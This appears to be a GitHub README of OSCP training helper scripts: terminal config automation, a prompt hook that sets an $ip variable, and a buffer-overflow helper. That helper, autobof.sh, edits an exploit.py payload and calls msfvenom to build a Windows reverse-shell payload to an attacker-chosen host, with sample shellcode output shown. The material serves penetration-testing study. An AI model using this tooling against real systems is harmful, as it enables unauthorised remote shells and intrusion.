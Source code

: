 # OSCP
## OSCP Ergonomic Scripts and Configs

__config.bak__ - A terminator config file that will be used to launch terminator and execute commands like ($ autorecon $ip) 
             across different IP folders using broadcast all mode.

__autoterm.sh__ - A script that will replace the placeholder ProjectX and #1,2,3,4,5 with the ProjectName and the target IP's.

```bash
# Example - terminators config file is reset using config.bak and reconfigured with the new projects IPs
# $./autoterm.sh
# Insert your Kali IP (Default: 127.0.0.1): 192.168.0.104
# Insert your Kali Port (Default: 22): 2222
# Setting Kali IP to 192.168.0.104
# Setting Kali SSH Port to 2222
# Project Name: R
# IPs: 10.10.10.23 10.10.10.5
# Terminator config successfully changed.

#!/bin/bash
# Restore original config
cp ~/.config/terminator/config.bak ~/.config/terminator/config
count=0 #Counter for Number of IPs

# This host should be accessible using preset ssh-keys. SSH Password setup will break terminator.
read -a kalibox -p 'Insert your Kali IP (Default: 127.0.0.1): '
# The ssh service on this host should be running on port 22 by default
read -a kaliport -p 'Insert your Kali Port (Default: 22): ' 

if [ -z "$kalibox" ]
then 
  kalibox="127.0.0.1";
fi 

echo "Setting Kali IP to ${kalibox}"

if [ -z "$kaliport" ]
then 
  kaliport="22";
fi

echo "Setting Kali SSH Port to ${kaliport}"

read -a project -p 'Project Name: '
read -a ips -p 'IPs: '

if [ -z "$project" ]
then 
  echo "Project Name cannot be empty"
  exit 0
fi

if [ -z "$ips" ]
then 
  echo "Please specify some IPs"
  exit 0
fi 

for elem in ${ips[@]}
do
  if [[ ! "$elem" =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then 
    echo "Please specify real IPs"
    exit 0
  fi 
  count=$((count+1))
  sed -i "s/127.0.0.1/$kalibox/g" ~/.config/terminator/config
  sed -i "s/2222/$kaliport/g" ~/.config/terminator/config
  sed -i "s/projectX/$project/g" ~/.config/terminator/config 
  sed -i "s/#$count/$elem/g" ~/.config/terminator/config 
done

echo 'Terminator config successfully changed.'
```


__dollar_ip_prompt_command.sh__ - Has a PROMPT_COMMAND env variable that will track a directory named using an IP on the current path (pwd)
                             and it will set the $ip env variable to that IP named directory. The code should be place on .bashrc or .zshrc. For zsh you have to add the line ```bash precmd() { eval "$PROMPT_COMMAND" }``` at the end of the .zshrc file


__autobof.sh__ - A script of generating 'full hex shellcode characterset' -> 'hex shellcode with deducted badchars' -> 'msfpayload'. Autobof will automatically generate payloads and modify exploit.py payload variable. Note: You have to paste the final msfvenom into
exploit.py
__badcharset.py__ - A script for generating the full hex shellcode 
__exploit.py__ - A python script for testing for simple buffer overflow

```bash
# Author: Andrew Abwoga
# This script will automatically generate a characterset without the bad characters the user has specified
# Specify outlying bad characters (from mona): 01 02 03
# Specify lhost (for venom): 127.0.0.1
# [+] Bad character shellcode: \x01\x02\x03
# [+] Bad character deduction: 
# payload = "\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
# [+] Modifying exploit.py payload with characterset without bad characters...
# [+] msfvenom output: [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
# [-] No arch selected, selecting arch: x86 from the payload
# Found 11 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
# Attempting to encode payload with 1 iterations of generic/none
# generic/none failed with Encoding failed due to a bad character (index=40, char=0x01)
# Attempting to encode payload with 1 iterations of x86/call4_dword_xor
# x86/call4_dword_xor succeeded with size 348 (iteration=0)
# x86/call4_dword_xor chosen with final size 348
# Payload size: 348 bytes
# Final size of c file: 1488 bytes
# unsigned char buf[] = 
# "\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"...

#!/bin/bash

echo "Note: Provide empty inputs to generate a full characterset payload."
read -a badchars -p 'Specify outlying bad characters (from mona): ' 
read -a lhost -p 'Specify lhost (for venom): '

if [ -z "$badchars" ]
then
echo "[+] Full bad characterset payload: "
echo "payload = \"$(python2 badcharset.py)\""

echo "[+] Modifying exploit.py payload with full characterset..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
replacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' ) 
sed -i "/payload = \"\"/c $replacement" exploit.py
fi

if [ -n "$badchars" ]
then
    echo -n "[+] Bad character shellcode: "
    bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
    echo "$bc"

    echo -n "[+] Bad character deduction: "
    pattern=$(for i in ${badchars[@]}; do echo -n "s+x$i\\\++g; " ; done)
    badcharsreplacement=$(echo -E "$(python2 badcharset.py)" | sed "$pattern" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}')
    echo $badcharsreplacement

    echo "[+] Modifying exploit.py payload with characterset without bad characters..."
    cat exploit.py | sed  -i 's/payload = ".*"$/payload = ""/g' exploit.py
    sed -i "s/payload = \"\"/$badcharsreplacement/g" exploit.py

    echo -n "[+] msfvenom output: "
    echo "$(msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread -b $bc -f c)"
fi
```

```bash
# Example - $ip env variable is automatically set using the code below
# $ mkdir 10.10.10.5
# $ cd 10.10.10.5
# $ autorecon $ip 

function prompt_command {
	unset ip #unset IP to make sure its not assigned
	nfields=$(echo $PWD | awk -F '/' '{print NF}') #get the number of directories along the path
	for i in $(seq $nfields) #iterate through the number of directories in the path
	do
		base=$(echo $PWD | awk -v i=$i -F '/' '{print $i}') #get a specific directory
		if [[ $base =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then #if that directory is an ip
			export ip=$base #export that ip 
		fi
	done
}
export PROMPT_COMMAND=prompt_command
```

[![Watch the video](https://i1.ytimg.com/vi/vRj62ltRSiY/sddefault.jpg)](https://www.youtube.com/watch?v=vRj62ltRSiY "Click to watch demo on Youtube")

